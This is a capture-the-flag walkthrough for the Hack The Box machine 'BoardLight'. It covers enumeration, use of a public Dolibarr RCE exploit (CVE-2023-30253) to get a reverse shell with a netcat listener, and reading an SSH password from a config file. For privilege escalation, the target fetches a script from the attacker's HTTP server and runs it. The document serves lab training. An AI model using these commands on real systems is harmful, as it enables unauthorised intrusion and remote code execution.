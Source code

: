 # HTB Machine Walkthrough: BoardLight
---
> [!IMPORTANT]  
> **Please use this as a hint or guide if you're blocked at some point of this machine, i make those files for myself and to help some friends that are also doing those machines.**


> [!NOTE]  
> **Try to get as far as you can by yourself or you will never learn to make machines alone. Hope you the best and happy hacking <3.**
--- 
## 1. Execute a Fast Nmap Scan on the Provided IP

## 1. Recognition

  

First, verify if the machine is reachable by pinging it:

```bash

ping  $Lab_IP -c 1

```

Next, start enumerating the machine using Nmap:

```bash

nmap  -sV -sC -n -Pn --min-rate 3000 10.10.11.11 -vvv

```

Upon navigating to the IP address in a browser, a webpage welcomes us to **BOARDLIGHT** maintained by Board.htb. To discover subdomains, use FFUF:

```bash

ffuf -H  "FUZZ.board.htb" -u "http://board.htb/" -w /usr/share/wordlists/dirb/big.txt

```

A subdomain `crm` is identified. Navigating to `http://crm.board.htb/` reveals a Dolibarr login page.

## 2. Exploit Phase

  

Dolibarr, an ERP and CRM software, is running version 17.0.0. Searching for exploits, we find a [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) exploit wich is a RCE that can be exploited via python program.

First, start a netcat listener in the port you desire

```bash

nc -lvnp $PORT

```

Execute the exploit to get a reverse shell:

```bash

python3 exploit.py http://crm.board.htb admin admin $Your_Machine_IP $PORT

```

We gain shell access as `www-data`.

## 3. Privilege Escalation

Explore the directories, and locate the `conf.php` file under `~/html/crm.board.htb/htdocs/conf` containing an SSH password. Use this to SSH into the user `larissa`:

```bash

ssh larissa@$Lab_IP

```

As `larissa`, navigate to `cd /home/larissa/` to find the `user.txt` flag.

To escalate privileges, download a local privilege escalation exploit:


```bash

python3 -m http.server 8080

```

On the target machine:

  

```bash

wget  http://10.10.14.101:8080/exploit.sh

chmod  777  exploit.sh

./exploit.sh

```

Once in, as a root, execute a bash terminal by using the following comand
```bash
bash
```
Finally just navigate to `/root` and retrieve the flag, saved as `root.txt`
```bash
cd /root
cat root.txt
```
---
**Congratulations: Machine completed**
---
